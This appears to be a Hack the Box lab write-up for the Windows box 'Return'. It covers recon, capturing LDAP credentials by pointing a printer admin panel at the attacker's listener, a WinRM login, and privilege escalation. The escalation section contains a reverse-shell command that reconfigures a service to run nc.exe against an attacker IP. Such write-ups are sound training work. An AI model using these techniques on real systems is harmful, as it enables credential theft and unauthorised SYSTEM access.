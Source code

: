 ```yaml
---
layout: post
title: "HTB: Return"
---
```


Return is an easy Windows box on the Hack the Box platform that focuses on abusing printer web admin panel on an active directory domain to get user LDAP credentials. Use them to log in using Evil-WinRM and discover some interesting privileges like **SeLoadDriverPrivilege** or **SeBackupPrivilege**. As a bonus the account is in the **Server Operators** group, which allows it to modify, start, and stop services. Which can be easily used to get a shell as SYSTEM.

# Recon

## nmap

```shell-session
sudo nmap -sC -sV -v -oA nmap_scan/nmap_results 10.129.95.241
```

nmap finds plenty of open ports, most interesting at the moment being ports **80** and **139,445** for **SMB**

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-10-30 09:38:44Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
52638/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 18m32s
| smb2-time: 
|   date: 2024-10-30T09:39:39
|_  start_date: N/A
```

## SMB - TCP 445

Dead end at the moment, maybe we will come back when we find some credentials.

![SMB](/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-10-52.png)

## Web - TCP 80

The website is a 'HTB Printer Admin Panel'
![Web](/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-11-07.png)

# Shell as svc-printer

On the 'Settings' tab ther eis pre-filled form
![Web2](/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-11-18.png)

## Burp 

When using burp to check the POST request only one argument is send:

```
ip=printer.return.local
```
The other three fields in the form are not.
User can only change the Server Address ('ip'), and not port, username or password.

## Request

If we change the ip to our tun0 IP and start listener on port 389 we should catch some response.

![Request](/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-11-42.png)
![Request2](/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-11-58.png)

...and it’s trying to authenticate so we have username and password.

## WinRM

Credentials happen to work for WinRM, so we can get a shell usin Evil-WinRM

![WinRm_shell](/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-25-07.png)

and get the user flag

![WinRm_shell](/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-31-22.png)

# Privilege Escalation

## Groups and Privileges

First of all, let's check our privileges,

![priv](/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-50-08.png)

and also groups.

![priv2](/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-50-21.png)

A lot can be done with privileges like **SeLoadDriverPrivilege** or **SeBackupPrivilege** but the **Server Operators** group is quite a catch.

## Reverse shell

Server Operators can modify, start, and stop services, we can abuse this by having it run nc64.exe to give us a reverse shell.

Upload the nc.exe 

![nc](/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-52-04.png)

Now modify a service binary path, stop and restart the service:

```shell-session
sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.45 4444"
```
![sh](/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-58-25.png)

Start listener and as soon as we start the service again we catch the shell.

![sh2](/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-58-54.png)

![sh2](/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-58-00.png)


